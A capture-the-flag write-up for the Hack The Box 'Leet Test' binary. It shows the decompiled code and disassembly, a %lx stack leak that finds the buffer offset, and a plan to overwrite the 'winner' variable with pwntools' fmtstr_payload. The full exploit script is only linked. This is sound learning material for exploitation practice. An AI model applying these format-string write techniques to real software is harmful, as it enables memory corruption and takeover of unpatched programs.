 # Leet Test
As usual, let's have a look at what the challenge is at face value:
```
Welcome to HTB!
Please enter your name: Williloo
Hello, Williloo
Sorry! You aren't 1337 enough :(
Please come back later
------------------------
Welcome to HTB!
Please enter your name: Test
Hello, Test
Sorry! You aren't 1337 enough :(
Please come back later
------------------------
Welcome to HTB!
Please enter your name:
```
It seems to be a continuous stream of asking for a name, before printing it: let's have a look at the binary, but straight away, 
the printing, if done poorly, can expose a format string vulnerability.

## Code 
```
004012ca  int32_t main(int32_t argc, char** argv, char** envp)

004012ca  {
004012e2      void* fsbase;
004012e2      int64_t var_10 = *(uint64_t*)((char*)fsbase + 0x28);
004012ed      initialize();
00401303      int32_t fd = open("/dev/urandom", 0);
0040132a      uint32_t buf;
0040132a      read(fd, &buf, 4);
0040133c      close(fd);
0040134a      buf = ((uint32_t)((int16_t)buf));
0040134a      
0040135c      while (true)
0040135c      {
0040135c          printf("Welcome to HTB!\nPlease enter yo…");
00401377          void var_128;
00401377          fgets(&var_128, 0x100, stdin);
00401388          printf("Hello, ");
0040139c          printf(&var_128);
004013b5          char rax_14;
004013b5          
004013b5          if ((buf * 0x1337c0de) != winner)
004013be              rax_14 = 0;
004013b5          else
004013b7              rax_14 = 1;
004013b7          
004013c5          if (rax_14 != 0)
004013c5              break;
004013c5          
00401457          puts("Sorry! You aren't 1337 enough :(…");
0040135c      }
0040135c      
004013dc      int32_t fd_1 = open("flag.txt", 0);
004013ec      int64_t buf_1 = malloc(0x100);
00401414      read(fd_1, buf_1, 0x100);
00401426      close(fd_1);
00401441      printf("\nCome right in! %s\n", buf_1);
0040144b      exit(0);
0040144b      /* no return */
004012ca  }
```
Aha! When we print the name, we don't use printf("%s", var_128), but rather print directly from the address. This introduces a format string
vulnerability, where we can write %x etc to read off memory. The way to get the flag in this case is for rax_14 to not equal 0, breaking out
of the loop. This can only be done when buf, a randomly generated number, times 0x1337c0de is equal to winner. Binary Ninja tells us that winner
is stored at 0x404078, and contains 0xcafebabe. While we can repeatedly restart the code until we generate a buffer that satisfies the condition,
let's expose this format string vulnerability!

## Exploit Formation
Let's formulate a plan of attack before we begin. As 0x1337c0de is a constant, we can't do much about it. Between buf and winner, it is much
easier to alter winner as we already know its address, and buf is on the stack so we can find it via format string vulnerabilities. Let's carry
this out. 
To start, let's find where buf is stored. Looking at the disassembly, we can see that if we set a breakpoint at 0x004013a7, the value stored in
$eax is buf.
```
00401350  488d3dc10c0000     lea     rdi, [rel data_402018]  {"Welcome to HTB!\nPlease enter yo…"}
00401357  b800000000         mov     eax, 0x0
0040135c  e87ffdffff         call    printf
00401361  488b15282d0000     mov     rdx, qword [rel stdin]
00401368  488d85e0feffff     lea     rax, [rbp-0x120 {var_128}]
0040136f  be00010000         mov     esi, 0x100
00401374  4889c7             mov     rdi, rax {var_128}
00401377  e8a4fdffff         call    fgets
0040137c  488d3dbe0c0000     lea     rdi, [rel data_402041]  {"Hello, "}
00401383  b800000000         mov     eax, 0x0
00401388  e853fdffff         call    printf
0040138d  488d85e0feffff     lea     rax, [rbp-0x120 {var_128}]
00401394  4889c7             mov     rdi, rax {var_128}
00401397  b800000000         mov     eax, 0x0
0040139c  e83ffdffff         call    printf
004013a1  8b85ccfeffff       mov     eax, dword [rbp-0x134 {buf}]
004013a7  69d0dec03713       imul    edx, eax, 0x1337c0de
004013ad  8b05c52c0000       mov     eax, dword [rel winner]
004013b3  39c2               cmp     edx, eax
004013b5  7507               jne     0x4013be
```
Now that we found what buf is, we can spam %lx into our format string vulnerability to see if its stored in the stack:
```
Welcome to HTB!
Please enter your name: %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx
Hello, 7fffffffbdc0 0 7ffff7e9f887 7 0 150000 fb5d00000840 3 c000 20786c2520786c25 20786c2520786c25 20786c2520786c25
...
pwndbg> p/x $eax
$4 = 0xfb5d
```
We can see that buf is stored in the first 4 bytes of the 7th %lx. This means we can extract it using pwntools and %7$x.
From here, we just need to write in our answer (buf * 0x1337c0de) into winner. Usually, we would use some sort of %n
exploit, but luckily for us, pwntools automates the process using the fmtstr_payload function. We just need to input the
offset for when we can control the stack. Looking back at our output from before, we know the hex for %lx(space) is 256c7820,
which stored in little endian form is 20786c25. Thus, our buffer begins on the 10th byte, meaning our offset is 10. We
can input this all into fmtstr_payload, which automates the process for us.

Exploit [here](exploit.py)